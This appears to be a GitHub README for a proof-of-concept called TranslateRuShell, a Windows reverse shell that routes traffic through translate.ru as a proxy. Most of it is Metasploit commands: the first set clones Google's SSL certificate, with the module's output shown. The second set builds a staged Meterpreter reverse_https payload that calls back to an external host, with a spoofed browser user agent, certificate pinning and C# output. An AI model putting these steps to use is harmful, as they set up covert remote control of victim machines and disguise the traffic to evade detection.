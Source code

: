 # TranslateRuShell (PoC)
Web reverse shell through translate.ru as proxy

## Generate Meterpreter Payload

### Get Cert

1. use auxiliary/gather/impersonate_ssl
2. set RHOST www.google.com
3. set Proxies http:host:port
4. run


[\*] www.google.com:443 - Connecting to www.google.com:443

[\*] www.google.com:443 - Copying certificate from www.google.com:443

/C=PortSwigger/O=PortSwigger/OU=PortSwigger CA/CN=www.google.com 

[\*] www.google.com:443 - Beginning export of certificate files

[\*] www.google.com:443 - Creating looted key/crt/pem files for www.google.com:443

[\+] www.google.com:443 - key: /root/.msf4/loot/20181213121009_default_74.125.131.99_www.google.com_k_916621.key

[\+] www.google.com:443 - crt: /root/.msf4/loot/20181213121009_default_74.125.131.99_www.google.com_c_554054.crt

[\+] www.google.com:443 - pem: /root/.msf4/loot/20181213121009_default_74.125.131.99_www.google.com_p_521262.pem

[\*] Auxiliary module execution completed

### Generate staged payload with cert check

1. use payload/windows/meterpreter/reverse_https
2. set LHOST video.cft-sd.xyz
3. set LPORT 443
4. set HttpUserAgent "Mozilla/5.0 (X11; Windows x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
5. set LURI /rest/api
6. set stagerverifysslcert true
7. set HANDLERSSLCERT /media/sf_Pentest/20181213120429_default_74.125.131.106_www.google.com_p_105411.pem
8. generate -t csharp
